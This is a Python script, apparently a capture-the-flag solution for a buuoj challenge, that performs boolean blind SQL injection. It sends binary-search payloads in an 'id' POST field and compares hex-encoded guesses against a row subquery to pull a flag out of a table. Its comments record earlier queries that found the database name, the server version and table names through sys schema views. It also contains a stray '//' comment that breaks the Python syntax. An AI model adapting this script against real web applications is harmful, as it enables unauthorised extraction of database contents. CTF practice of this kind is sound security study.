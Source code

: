 ```
#wh1sper
#bool盲注
import requests

host = 'http://7282ff4f-c5c7-4023-be2e-b40f0e422e2c.node3.buuoj.cn/index.php'

def mid(bot, top):
    return (int)(0.5*(top + bot))

def trans_to_hex(str):
    result = '0x'
    for i in str:
        temp = hex(ord(i))
        result += temp.replace('0x','')
    return result


def sqli():
    name = ''
    for j in range(20, 250):
        top = 126
        bot = 32
        while 1:
            #babyselect = "(database())"--->give_grandpa_pa_pa_pa
            #babyselect = "(version())"--->10.2.26-MariaDB-log

            #babyselect = "(select group_concat(table_name) from 
            # sys.schema_table_statistics_with_buffer
            # where table_schema=database())"--->users233333333333333,f1ag_1s_h3r3_hhhhh

            #select = "ascii(substr("+babyselect+",{},1))>{}".format(j, mid(top, bot))

            select = "(select * from f1ag_1s_h3r3_hhhhh)>(select 1,{})".\
                format(trans_to_hex(name+chr(mid(bot, top))))
            playload = "0||"+select
            data = {
                "id": playload
            }
            #print(playload)
            r = requests.post(url=host, data=data)
            #print(r.text)
            if '|' in name://最后一位没有下一位可以比较，只能在这里返回，替换一下即可
                name = name.lower().replace('|', '}')
                print(name)
                return

            if 'Nu1L' in r.text:  # 成功
                if top - 1 == bot:      # top和bot相邻，说明name是top
                    name += chr(top-1)
                    print(name)
                    break
                bot = mid(bot, top)  # 成功就上移bot
            else:               # 失败
                if top - 1 == bot:      # top和bot相邻，加上失败，说明name是bot
                    name += chr(bot)
                    print(name)
                    break
                top = mid(bot, top)  # 失败就下移top


if __name__ == '__main__':
    sqli()
```